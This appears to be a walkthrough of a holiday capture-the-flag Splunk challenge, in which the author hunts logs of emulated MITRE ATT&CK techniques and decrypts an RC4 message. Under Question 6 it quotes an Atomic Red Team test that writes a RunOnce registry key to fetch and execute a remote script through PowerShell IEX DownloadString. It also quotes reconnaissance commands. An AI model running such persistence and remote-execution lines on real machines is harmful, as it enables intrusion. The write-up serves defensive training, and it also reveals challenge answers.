# Splunk Challenge

Moving around the dark room behind the locked door, we see what look like peep holes in the wall. Walking to them, we discover we've been transformed into (or are controlling) Santa. Just what is going on here?



## Objective

> Access the Splunk terminal in the Great Room. What is the name of the adversary group that Santa feared would attack KringleCon?<br>

`Difficulty: 3/5`

## Angel Candysalt's dialog:
> Hey Santa, there’s some crazy stuff going on that we can see through our Splunk infrastructure.<br>
> You better login and see what’s up.<br>

## Hints
> There was a great [Splunk talk](https://www.youtube.com/watch?v=qbIhHhRKQCw) at KringleCon 2 that's still available!<br>
> Dave Herrald talks about emulating advanced adversaries and [hunting them with Splunk](https://www.youtube.com/watch?v=RxVgEFt08kU).<br>
> Defenders often need to manipulate data to decRypt, deCode, and refourm it into something that is useful. [Cyber Chef](https://gchq.github.io/CyberChef/) is extremely useful here!<br>

## Solution
In this objective, we're going to be using Splunk to find events and data
related to a simulated attack against Santa's infrastructure. Some knowledge of Splunk or similar SIEM/logging platforms is useful for this task, but the videos in the Hints will give a good foundation to help with completing this objective.



The KringleCastle
SOC (Security Operations Center) has used a testing tool known as [Atomic
Red Team](https://github.com/redcanaryco/atomic-red-team) to perform a set
of tactics and techniques that attackers use to penetrate systems. The MITRE
corporation has developed a knowledge base of these tactics/techniques known as
[ATT&CK](https://attack.mitre.org/). Logging into the Splunk terminal as Santa, we
see there's a chat room for the SOC analysts:



And a private chat between Alice Bluebird (the KringleCastle SOC Team Lead) and Santa:



We have a series of questions to answer before we can get to the final question for the objective:



It's helpful to open an additional browser tab with the Splunk interface to run queries against, leaving the KringleCon SOC chat window open for access to the questions.

### Question 1: `How many distinct MITRE ATT&CK techniques did Alice emulate?`

To answer this, Alice gives us the basic part of the question: `| tstats count where index=* by index`, which yields these results:



The 'Techniques' in the simulation are organized into individual Splunk indexes, named
after the technique (ex. `t0133`, `t0157`, ...). A technique can have sub-techniques, such
as `t1059.003` and `t1059.005`. The question calls for the number of top-level techniques,
which counted up add to `13`.

Answering the question gives us more dialog from Alice in the chat, including a Splunk query that returns the exact answer:

```
| tstats count where index=* by index
| search index=T*-win OR T*-main
| rex field=index "(?<technique>t\d+)[\.\-].0*"
| stats dc(technique)
```

### Question 2: `What are the names of the two indexes that contain the results of emulating Enterprise ATT&CK technique 1059.003? (Put them in alphabetical order and separate them with a space)`

Using the screenshot above, we can see the two indexes is `t1059.003-main t1059.003-win`.

### Question 3: `One technique that Santa had us simulate deals with 'system information discovery'. What is the full name of the registry key that is queried to determine the MachineGuid?`

For this question, we'l need to dig into the MITRE ATT&CK framework to determine
which technique is being used, and therefore which Splunk index to search. MITRE
has developed a tool to facilitate searching the framework for techniques, available
[here](https://mitre-attack.github.io/attack-navigator/). Open that page in a new tab,
click 'Create a new layer', and select 'Enterprise'. This brings up a browsable and
searchable instance of ATT&CK. We can search for 'system information discovery' and get a link to the page related to that technique:



Clicking on the 'view' link takes us to the specific page on the technique, which is T1082:



Using that technique number as the index, we can then search Splunk for the keyword `MachineGuid`, to find where the simulated attack queried the regstry:



The command line used to query the registry was `REG  QUERY HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Cryptography /v MachineGuid`, which makes the key queried `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Cryptography`.

### Question 4: `According to events recorded by the Splunk Attack Range, when was the first OSTAP related atomic test executed? (Please provide the alphanumeric UTC timestamp.)` 

[OSTap](https://malpedia.caad.fkie.fraunhofer.de/details/js.ostap) is a JavaScript-based
downloader commonly used to deliver malware such as TrickBot. 

Alice gives a hint on what index to search:

> I suppose the SOC elves might overthink this one. Splunk Attack Range keeps track of the simulations that are run in<br>
> `index=attack`<br>
> You can then search that index for specific keywords...<br>

We can search Splunk for
anything related OSTap it with `index=attack ostap`. We're looking for the UTC timestamp of
the earliest technique, so scrolling down to the bottom of the ressults and expanding #8 gives us a timestamp of `2020-11-30T17:44:15Z`



### Question 5: `One Atomic Red Team test executed by the Attack Range makes use of an open source package authored by frgnca on GitHub. According to Sysmon (Event Code 1) events in Splunk, what was the ProcessId associated with the first use of this component?`

This question requires a bit more research. We need to look at [frngca's GitHub page](https://github.com/frgnca) to find what package the tool is using, so we can search Splunk for when it was used. Looking at their repositories, one jumps out: `AudioDeviceCmdlets`, used to control audio devices on Windows:



So we're looking for something to do with audio devices. Going back to the ATT&CK navigator and searching for 'audio', we find `Audio capture` is technique `T1123`.



We can then go to the Atomic Red Team [GitHub Repository](https://github.com/redcanaryco/atomic-red-team/) to look at the specific tests run for `T1123` in the file `https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1123/T1123.yaml`:

```yaml
attack_technique: T1123
display_name: Audio Capture
atomic_tests:
- name: using device audio capture commandlet
  auto_generated_guid: 9c3ad250-b185-4444-b5a9-d69218a10c95
  description: |
    [AudioDeviceCmdlets](https://github.com/cdhunt/WindowsAudioDevice-Powershell-Cmdlet)
  supported_platforms:
  - windows
  executor:
    command: |
      powershell.exe -Command WindowsAudioDevice-Powershell-Cmdlet
    name: powershell

```

Searching Splunk for `index=t1123-win WindowsAudioDevice-Powershell-Cmdlet` and scrolling to the bottom of the results yields this data:



The `ProcessId` is `0xe40`, which when converted from hexadecimal to base 10 is `3648`.

### Question 6: `Alice ran a simulation of an attacker abusing Windows registry run keys. This technique leveraged a multi-line batch file that was also used by a few other techniques. What is the final command of this multi-line batch file used as part of this simulation?`

As with Question 5, we'll use the ATT&CK Navigator to
search for 'run key'. The technique used is `T1547.001 'Boot
or Logon Autostart Execution: Registry Run Keys / Startup
Folder'`. 



Looking in the Atomic Red Team source for T1547.001 at
`https://github.com/redcanaryco/atomic-red-team/tree/master/atomics/T1547.001`
shows a `batstartup.bat` file in the `src` directory, but it only
contains a single line of `echo " T1547.001 Hello World Bat"`. Searching
`T1547.001.yaml` finds a reference to another `.bat` file:

```yaml linenums="43" hl_lines="20"
- name: PowerShell Registry RunOnce
  auto_generated_guid: eb44f842-0457-4ddc-9b92-c4caa144ac42
  description: |
    RunOnce Key Persistence via PowerShell
    Upon successful execution, a new entry will be added to the runonce item in the registry.
  supported_platforms:
  - windows
  input_arguments:
    thing_to_execute:
      description: Thing to Run
      type: Path
      default: powershell.exe
    reg_key_path:
      description: Path to registry key to update
      type: Path
      default: HKLM:\Software\Microsoft\Windows\CurrentVersion\RunOnce
  executor:
    command: |
      $RunOnceKey = "#{reg_key_path}"
      set-itemproperty $RunOnceKey "NextRun" '#{thing_to_execute} "IEX (New-Object Net.WebClient).DownloadString(`"https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Misc/Discovery.bat`")"'
    cleanup_command: |
      Remove-ItemProperty -Path #{reg_key_path} -Name "NextRun" -Force -ErrorAction Ignore
    name: powershell
    elevation_required: true
```

Examining the file `https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Misc/Discovery.bat` shows that `quser` is the last command executed in the file:

```bat linenums="37" hl_lines="8"
arp -a
whoami
ipconfig /displaydns
route print
netsh advfirewall show allprofiles
systeminfo
qwinsta
quser
```

### Question 7: `According to x509 certificate events captured by Zeek (formerly Bro), what is the serial number of the TLS certificate assigned to the Windows domain controller in the attack range?`

[Zeek](https://zeek.org) (formerly Bro) is an open-source Network Security Monitoring tool. Zeek watches network packets, interpretes the traffic, and creates compact and searchable logs and data. Here, we're looking for the serial number of an x509 certificate, assigned to the Windows Domain Controller in the simulated environment. We can search for Zeek log entries with `serial` in them with `index=* sourcetype=bro* serial`. The first result returned is interesting:



The host returned is named `win-dc-748.attackrange.local`, which at a guess is probably the Domain Controller. The serial number of the certificate is `55FCEEBB21270D9249E86F4B9DC7AA60`.


Answering Question 7 gives us the data needed to answer the Objective. Alice has three pieces of information we need:

> This last one is encrypted using your favorite phrase! The base64 encoded ciphertext is: `7FXjP1lyfKbyDK/MChyf36h7`</br>
> It's encrypted with an old algorithm that uses a key. We don't care about RFC 7465 up here!</br>
> I can't believe the Splunk folks put it in their talk!</br>

[RFC 7465](https://tools.ietf.org/html/rfc7465) deals with deprecating the RC4 encryption algorithm. `I can't believe the Splunk folks put it in their talk!` refers to a final tidbit in the [Splunk talk](https://www.youtube.com/watch?v=RxVgEFt08kU): `Stay Frosty`



With these pieces of data, we can use [CyberChef](https://gchq.github.io/CyberChef/) to decrypt the message. CyberChef is a browser-based utility for data manipulation, in a drag & drop interface. We can copy the ciphertext to the **Input** section, drag the **From Base64** and **RC4** tasks to the **Recipe** section, enter the key of `Stay Frosty`, and CyberChef gives the adversary.

